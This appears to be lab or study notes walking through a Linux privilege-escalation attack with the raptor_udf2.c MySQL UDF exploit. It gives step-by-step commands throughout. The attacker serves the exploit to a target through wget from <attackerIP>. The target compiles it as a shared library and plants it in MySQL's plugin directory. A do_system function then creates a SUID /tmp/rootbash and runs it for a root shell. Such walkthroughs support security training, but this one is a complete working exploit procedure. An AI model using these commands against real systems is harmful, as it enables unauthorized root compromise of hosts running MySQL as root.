


raptor_udf2.c
3. Exploit with
https://www.exploit-db.com/exploits/1518 (aka
raptor_udf2.c). We have to follow the instructions in
the comments.
1) We have to create the shared library raptor_udf2.so
Attacker
attacker@kali:/# cd /var/www/html
attacker@kali:/# wget https://www.exploit-db.com/raw/1518
attacker@kali:/# python3 -m http.server 80 -d /var/www/html
Target
target@debian:~$ wget http://<attackerIP>/1518 -O raptor_udf2.c
Now we have to create a shared library raptor_udf2.so from source file raptor_udf2.c because of that we
are using:
target@debian:~$ gcc -g -c -fPIC raptor_udf2.c #creation of raptor_udf2.o
▪ -g → debug
informations
▪ -c → compile
▪ -fPIC → helps the shared library to get loaded as any address instead of
some fixed address.
target@debian:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
▪ -g → debug
informations
▪ -shared → generate shared object file for shared library
▪ -Wl → passes a comma-separated
list of arguments to the linker. As its name suggests, -soname specifies the required <soname>, in our
scenario
raptor_udf2.so. <soname> is only a symbolic link to the shared library's <real
name>
▪ -o → build output to <real-name> that in our scenario is
raptor_udf2.so.
<real-name> contain the actual library code
▪ -lc → links the standard C library libc
2)
Connect to mysql
target@debian:~$ mysql -u root -p #press two times enter without password
mysql>
3) Load shared library in mysql and create the UDF do_system
mysql> use mysql;
mysql> create table foo(line blob);
#load content of the shared object
mysql> insert into foo values(load_file('<PATH>/raptor_udf2.so'));
#for older versions of mysql the the location of the dumpfile
#will be '/usr/lib/raptor_udf2.so'.To be sure about that we can execute:
#SHOW VARIABLES LIKE 'plugin_dir';
#We have the permissions to do that because mysql is running as root
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
#creation of a mysql function which use the shared object
mysql> create function do_system returns integer soname 'raptor_udf2.so';
4) creation of a shell with root permissions with chmod
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
mysql> exit
 5) Execute the rootshell
in privileged mode as explained in
SUID
shells
target@debian:~$ /tmp/rootbash -p
 -p → Turn on privileged
mode. In this mode bash keep the
effective ID it is launched with the SUID bit,
instead of the
effective ID of the actual user.